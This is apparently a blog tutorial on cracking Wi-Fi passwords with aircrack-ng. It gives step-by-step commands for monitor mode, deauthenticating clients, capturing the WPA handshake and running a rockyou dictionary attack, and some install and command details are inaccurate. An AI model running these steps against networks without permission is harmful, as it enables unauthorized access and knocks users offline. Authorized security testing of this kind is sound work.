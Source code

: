 ```yaml
---
title: 'Wifi Password cracking'
date: 'July 8, 2022'
excerpt: 'This blog will help you to crack wifi password using airmon-ng.'
cover_image: '/images/posts/img1.jpg'
---
```


# Wifi Password Cracking with airmon-ng.

>This blog will help you to crack wifi password using airmon-ng.

>Disclaimer: Use this cracking method only if you own the wifi or you have permission to crack. Don't use it illegal.

>The following instruction will lead you to own any wifi (only if the password is available on wordlist).            
---
---
>Tools needed: 
* kali-linux
* airmon-ng
* airodump-ng
* aireplay-ng
* aircrack-ng

>Commands for installing packages 
```bash
sudo apt update && sudo apt upgrade -y
sudo apt install airmon-ng airodump-ng aireplay-ng aircrack-ng
```

```bash
sudo airmon-ng check kill (to kill all processes and wifi will also be disabled)

sudo airmon-ng start wlan0 (to start wifi module)

sudo airmon-ng start wlan0mon (to start wifi into monitoring mode for capturing packets)

iwconfig (this command is only for checking whether wifi is in monitoring mode wlan0mon)

sudo airodump-ng wlan0mon (shows the details of wifi networks available nearby)
ctrl+c (stops capturing)
*copy the bssid and channel of wifi, which you want to get into.*

sudo airodump-ng wlan0mon -c <channel no.> --bssid <bssid> wlan0mon
(this command will show you one particular wifi network, you have to paste the channel no. and bssid of the particular wifi)

sudo airodump-ng wlan0mon -c <channel no.> --bssid <bssid> wlan0mon -w <name of the output file>
ctrl+c (stop capturing only after getting the 4-way handshake)(the next instruction will help you to capture the 4-way handshake)
(you have to specify any name in which the .cap captured flag will be saved)

*now open another terminal*
terminal 2: sudo aireplay-ng --deauth 0 -a <bssid> wlan0mon
           (this command will deauthenticate/disconnect the already connected devices to that wifi. So that we can get the 4-way handshake)

*now the 4-way handshake will be saved in terminal 1*

ctrl+c (stop capturing only after getting the 4-way handshake)

*the captured file will be saved as .cap file in you directory*

sudo airmon-ng stop wlan0mon (this command stops monitoring mode)

sudo service network-manager start (restarts your wifi)

aircrack-ng <name of the .cap file> -w /usr/share/wordlists/rockyou.txt
*you have to specify the name of your .cap file and full path to the wordlist*

```
>It will start cracking the password. This attack is known as bruteforce attack or dictionary attack.

>Password will be cracked only if the password is available on the wordlist you are specifying.

>Save your wifi by having a strong password.
